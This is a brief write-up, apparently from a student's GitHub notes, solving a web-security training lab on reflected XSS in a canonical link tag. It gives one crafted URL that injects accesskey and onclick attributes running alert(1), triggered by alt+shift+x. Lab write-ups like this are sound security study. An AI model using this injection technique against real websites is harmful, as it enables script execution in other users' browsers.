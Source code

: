 # Lab: Reflected XSS in canonical link tag #

## Lab Description ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/f1417ed1-3004-43c1-a8fe-574d1bb422ad)

> Now we change the website url to get alert while clicking a particular combination

```
https://0ab500b003146ef7819b2fa400f00029.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```
> Onclicking combination alt+shift+x we got alert

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/2ae59c4a-2bd0-4d28-8c8e-962e83d43918)
